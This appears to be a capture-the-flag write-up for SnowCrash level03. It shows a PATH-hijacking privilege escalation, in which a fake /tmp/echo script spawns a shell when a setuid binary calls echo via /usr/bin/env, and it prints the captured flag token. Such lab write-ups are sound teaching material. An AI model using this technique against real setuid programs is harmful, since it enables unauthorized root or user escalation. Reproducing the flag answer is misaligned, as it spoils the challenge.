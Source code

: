 ### Exploit

In this level, we're provided with an exec file `./level03`. When executing the file, we get the message "Exploit me". Well, cheers, I might just do that. Calling `strings` and `nm`, we're able to get a better insight into what this exploit might be.

```
    level03@SnowCrash:~$ strings level03
    [...]
    /usr/bin/env echo Exploit me
    [...]
    level03@SnowCrash:~$ nm level03
    [...]
    080484a4 T main
             U setresgid@@GLIBC_2.0
             U setresuid@@GLIBC_2.0
             U system@@GLIBC_2.0
```

Notice “echo” is being called without its absolute path and relies on `/usr/bin/env` in order to be executed. This is a major security vulnerability because the script will rely on the environment variables of the current shell (which can be tampered with). Let's create a temporary `echo` file which will in fact spawn a shell. The idea is that when the user launches the executable, the "classic" echo command will be overwritten by our "fake" echo commend. By exporting a new path to the environment, `/tmp/echo` is called first and does whatever you want.

```
    level03@SnowCrash:~$ touch /tmp/echo
    level03@SnowCrash:~$ cat /tmp/echo
    #!/bin/sh
    sh
    level03@SnowCrash:~$ chmod 775 /tmp/echo
    level03@SnowCrash:~$ export PATH=/tmp:$PATH
    level03@SnowCrash:~$ echo $PATH
    /tmp:/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
    level03@SnowCrash:~$ ./level03
    $ id
    uid=3003(flag03) gid=2003(level03) groups=3003(flag03),100(users),2003(level03)
    $ getflag
    Check flag.Here is your token : qi0maab88jeaj46qoumi7maus
```

We've learnt to to tamper with environment variables! Hope this skill is going to be useful in the future...
